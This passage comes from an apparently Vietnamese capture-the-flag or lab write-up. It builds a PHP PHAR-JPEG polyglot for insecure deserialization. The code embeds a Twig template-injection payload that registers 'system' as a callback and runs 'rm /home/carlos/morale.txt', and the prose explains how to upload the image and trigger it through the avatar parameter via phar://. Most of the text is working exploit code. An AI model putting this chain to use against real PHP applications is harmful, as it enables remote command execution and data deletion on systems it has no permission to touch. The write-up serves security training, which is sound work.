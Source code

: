 ```php!
// $object->out = 'Hallo World';
class CustomTemplate
{
}
class Blog
{
}
$object = new CustomTemplate;
$blog = new Blog;
$blog->desc = "{{_self.env.registerUndefinedFilterCallback('system')}}{{_self.env.getFilter('rm /home/carlos/morale.txt')}}";
$blog->user = 'user';
$object->template_file_path = $blog;


// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```

![image](https://hackmd.io/_uploads/HyTNdTgip.png)

và mình được ảnh chứa đối tượng của chúng ta

![out](https://hackmd.io/_uploads/SygZYTxip.jpg)

Upload file và trigger Phar deserialization tại tham số avatar bằng `phar://`.

![image](https://hackmd.io/_uploads/HyA75TgjT.png)

![image](https://hackmd.io/_uploads/B1bm5axsa.png)

